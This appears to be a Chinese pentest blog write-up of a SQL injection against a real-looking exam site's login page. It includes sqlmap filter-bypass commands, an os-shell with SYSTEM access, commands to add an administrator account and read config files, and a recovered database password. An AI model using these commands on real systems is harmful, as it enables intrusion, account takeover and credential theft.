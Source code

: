 ```yaml
---
date: 2020-06-22 17:35:07
title: 记一次 SQL 注入简单 bypass
description: 注入 bypass
categories:
  - Pentest
tags:
  - SQL注入
---
```


### 0x00 存在 SQL 注入
总之是遇到一个站，登录的页面，数据包大致如下：
```
POST /jsweb/userlogin/UserLoginAction.aspx HTTP/1.1
Host: 115.xxx.xxx.xxx:8042
Content-Length: 47
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://115.xxx.xxx.xxx:8042
Referer: http://115.xxx.xxx.xxx:8042/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: ASP.NET_SessionId=bxdzehxa5mvoco1fkrjlbqbt
Connection: close

uname=admin*&pwd=dskfsdkf&valCode=1197&telphone=
```

其中验证码可以绕过，而登录名那里存在注入
![](/img/post/Xnip2020-09-13_22-20-51.jpg)
![](/img/post/Xnip2020-09-13_22-21-32.jpg)

使用 and 1=1、and 1=2 时，发现过滤了空格，用/**/代替
![60](/img/post/Xnip2020-09-13_22-30-08.jpg)
![60](/img/post/Xnip2020-09-13_22-30-34.jpg)

### 0x01 简单看一下

中间件是 IIS，存在 len 函数，确定为 SQLServer
![60](/img/post/Xnip2020-09-13_22-33-36.jpg)

Order by 一下，看看能不能 union，发现有 10 列
![60](/img/post/Xnip2020-09-13_22-34-56.jpg)

尝试 union select
![80](/img/post/Xnip2020-09-13_22-40-54.jpg)

admin 转换为 int 时出错，感觉好像能显示位，测试发现确实可以显示
![80](/img/post/Xnip2020-09-13_22-41-55.jpg)

可以获取数据库版本，可以确定有 union 注入了
![](/img/post/Xnip2020-09-13_22-42-59.jpg)

### 0x02 sqlmap
```sqlmap跑一下：sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment```
![](/img/post/Xnip2020-09-13_22-45-24.jpg)

比较奇怪，手工的时候可以 union 的，先看看 boolean-based 获取数据吧

-\-current-db 倒是能获取到数据库名为 ExamDataP_2019，但是获取表名的时候就返回空了

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment -D ExamDataP_2019 --tables```
![](/img/post/Xnip2020-09-13_22-46-35.jpg)

能判断出来有注入，手工测试 and 1=1 时可以，测试 union 也可以，看来确实有过滤

### 0x03 探测过滤
看看过滤了啥，union 比较快，就用 union、-v 5 看下 payload

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment --technique=U --current-db -v 5```

直接拿最后一个 payload 测试下
![](/img/post/Xnip2020-09-13_23-05-33.jpg)

提示 98 附近有错误
![80](/img/post/Xnip2020-09-13_23-06-19.jpg)

感觉像过滤了char之类的函数，char 移到显示位，测一下

发现有加号的时候出错，没有的时候就没问题，可能是处理加号了
![80](/img/post/Xnip2020-09-13_23-07-17.jpg)
![80](/img/post/Xnip2020-09-13_23-08-12.jpg)

移到显示位测了下，确实处理加号了，替换为空了
![80](/img/post/Xnip2020-09-13_23-08-59.jpg)

### 0x04 tamper
去网上找了能替换加号的，没有找到相关信息，后来想着 sqlmap 的 tamper 会不会有，结果还真有
![](/img/post/Xnip2020-09-13_23-09-50.jpg)

有两个 tamper，一个是适用 2012 的，一个是 2008 的，我们这里的数据库是 08 的，用 plus2fnconcat.py 这个，可以判断出来数据库了

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment,plus2fnconcat --technique=U --current-db```
![](/img/post/Xnip2020-09-13_23-10-55.jpg)

Emmmmm，可以获取数据库表，但是获取表的列名时依然不返回数据
![](/img/post/Xnip2020-09-13_23-12-12.jpg)

### 0x05 再次探测过滤
同样 -v 3 看 payload，然后测试
![](/img/post/Xnip2020-09-13_23-13-06.jpg)

有语法错误，估计又是那个被替换为空了，慢慢试。。。

看了下语句，涉及到的也就是 union、select、concat、cast、from、syscolumns、sysobjects、where、and 这些个可能被过滤的，union、select 没问题，前面测试过了，剩下的被处理的关键字感觉大概率是 from、and。。。。
![70](/img/post/Xnip2020-09-13_23-13-59.jpg)

语法错误。。。应该就是 from 了。能报错，还是想法报错到显示位

emmmm，感觉好像没有哪里过滤。。。但就是有语法错误。。。
![](/img/post/Xnip2020-09-13_23-14-57.jpg)

网上查了下，其实前面的 from 出错是因为表的原因，from 1，没有 1 这个表，所以出错。。。。。

sqlserver 和 mysql 不一样，还是用的少。。。
![90](/img/post/Xnip2020-09-13_23-15-38.jpg)

但是再次找个 pyaload 尝试依然有问题，不返回数据
![70](/img/post/Xnip2020-09-13_23-16-39.jpg)

同样的语句本地测试是可以返回数据的，费解
![80](/img/post/Xnip2020-09-13_23-17-18.jpg)


### 0x06 os-shell
实在没法了，-\-is-dba 为 True，直接 -\-os-shell
```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment,plus2fnconcat --os-shell```
![](/img/post/Xnip2020-09-13_23-18-11.jpg)

emmmmmm，system，啥都不说了。。。。。
![90](/img/post/Xnip2020-09-13_23-19-19.jpg)

看下端口
![70](/img/post/Xnip2020-09-13_23-19-55.jpg)

添加用户不行，卡死，估计是被拦截了
```net user Guest1 Aa123456. /add & net localgroup administrators Guest1 /add & net user Guest1 /active:yes```
![](/img/post/Xnip2020-09-13_23-20-30.jpg)

看了下 tasklist，有 360，先传个 shell 吧，方便后续渗透

找路径: ```dir /s /b e:\"username.jpg"```
![70](/img/post/Xnip2020-09-13_23-21-31.jpg)

通过 echo 写 txt 判断路径，试了几个都不是，写中文路径提示不存在。。。。。
![](/img/post/Xnip2020-09-13_23-22-51.jpg)

本来网上查可以用 bat 写中文路径文件，用了 certutil、bitsadmin、powershell 都没有下载成功

看下有没有不是不包含中文的 web 路径: ```type C:\Windows\System32\inetsrv\config\applicationHost.config```

发现 80 端口路径为 c:\inetpub\wwwroot\
![85](/img/post/Xnip2020-09-13_23-23-33.jpg)

写一句话: 
![](/img/post/Xnip2020-09-13_23-24-28.jpg)

访问后出错
![70](/img/post/Xnip2020-09-13_23-25-10.jpg)

后续测试发现通过浏览器写中文名的话可以，创建了文件 9d.txt，证明网站路径就是 e:\江xxxx网站\JsWeb\
![90](/img/post/Xnip2020-09-13_23-26-00.jpg)

现在的话就知道了目标的绝对路径为 e:\江xxxx网站\JsWeb\，同时目标的 80 端口的绝对路径为 c:\inetpub\wwwroot\

PS: 由于当时有别的事，没有继续向下做，其实还可以数据库备份 shell 到网站目录，后续也见到了一个不会出现 "/" 应用程序中的服务错误的 webshell

### 0x07 找数据库信息
找 Web.config，```dir /s /b e:\"Web.config"，type e:\b2cexam\web.config```
获取到一个数据库用户名密码user id=kw;password=123456;
![](/img/post/Xnip2020-09-13_23-27-23.jpg)
![](/img/post/Xnip2020-09-13_23-29-21.jpg)
